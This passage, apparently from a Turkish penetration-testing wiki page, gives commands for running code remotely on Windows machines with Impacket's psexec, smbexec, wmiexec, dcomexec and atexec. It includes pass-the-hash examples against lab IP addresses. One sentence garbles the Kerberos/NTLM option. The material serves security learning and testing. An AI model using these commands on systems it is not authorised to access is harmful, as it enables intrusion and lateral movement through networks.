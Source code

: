 ```bash
```
### [**psexec**](../windows-hardening/ntlm/psexec-and-winexec.md)**/**[**smbexec**](../windows-hardening/ntlm/smbexec.md)

Her iki seçenek de kurban makinede _\pipe\svcctl_ üzerinden SMB aracılığıyla yeni bir hizmet oluşturacak ve onu bir şeyi yürütmek için kullanacak (**psexec**, yürütülebilir bir dosyayı ADMIN$ paylaşımına yükleyecek ve **smbexec**, cmd.exe/powershell.exe'ye işaret edecek ve argümanlara payloadu ekleyecek --**dosyasız teknik--**-).\
[psexec](../windows-hardening/ntlm/psexec-and-winexec.md) ve [smbexec](../windows-hardening/ntlm/smbexec.md) hakkında **daha fazla bilgi**.\
Kali'de /usr/share/doc/python3-impacket/examples/ konumunda bulunur.
```bash
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```
**-k** parametresini kullanarak, **NTLM** yerine **kerberos** ile kimlik doğrulaması yapabilirsiniz.

### [wmiexec](../windows-hardening/ntlm/wmicexec.md)/dcomexec

**Port 135** üzerinden DCOM kullanarak diske dokunmadan veya yeni bir servis çalıştırmadan gizlice bir komut kabuğu çalıştırın.\
**Kali** üzerinde /usr/share/doc/python3-impacket/examples/ dizininde bulunur.
```bash
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```
**Kerberos** yerine **NTLM** yerine geçmek için **-k** parametresini kullanarak kimlik doğrulaması yapabilirsiniz.
```bash
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```
### [AtExec](../windows-hardening/ntlm/atexec.md)

Görev Zamanlayıcısı aracılığıyla komutları yürütme (_\pipe\atsvc_ üzerinden SMB kullanarak).\
**kali** üzerinde /usr/share/doc/python3-impacket/examples/ konumunda bulunur.
```bash
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```
## Impacket referansı
